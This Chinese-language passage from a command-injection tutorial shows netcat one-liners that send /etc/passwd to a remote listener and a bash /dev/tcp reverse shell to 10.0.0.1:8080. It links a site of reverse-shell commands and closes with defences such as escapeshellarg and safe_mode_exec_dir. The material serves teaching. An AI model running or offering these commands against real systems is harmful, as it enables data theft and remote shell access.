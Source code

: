 **netcat**

如果目标系统存在有 netcat 在 ubuntu 系统都会存在的。使用命令读取文件传递到远程服务器上远程服务器监听命令

```
远程服务器监听命令
nc -lp 9999 >passwd
本地执行命令
nc 192.168.1.100 9999 </etc/passwd
```

会在查看远程服务器生成 passwd 文件

<img src="图片\Snipaste_2023-02-04_10-39-23.png" alt="Snipaste_2023-02-04_10-39-23"  />

### 命令执行 nc 反弹 shell

远程服务器 nc 监听命令 

```
nc -vlnp 8080
```

目标机器执行，选择合适的命令

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

有很多反弹shell命令的平台   https://forum.ywhack.com/bountytips.php

## 防御

- **不执行外部的应用程序或命令**

  尽量使用自定义函数或函数库实现外部应用程序或命令的功能。在执行 system、eval 等命令执行功能的函数前，要确认参数内容

- **使用 escapeshellarg 函数处理相关参数**

  escapeshellarg 函数会将用户引起参数或命令结束的字符进行转义，如单引号“’”会被转义为“’”，双引号“"”会被转义为“"”，分号“;”会被转义为“;”，这样 escapeshellarg 会将参数内容限制在一对单引号或双引号里面，转义参数中包括的单引号或双引号，使其无法对当前执行进行截断，实现防范命令注入攻击的目的

- **使用 safe_mode_exec_dir 执行可执行的文件路径**

  将 php.ini 文件中的 safe_mode 设置为 On，然后将允许执行的文件放入一个目录，并使用safe_mode_exec_dir 指定这个可执行的文件路径。这样，在需要执行相应的外部程序时，程序必须在safe_mode_exec_dir 指定的目录中才会允许执行，否则执行将失败
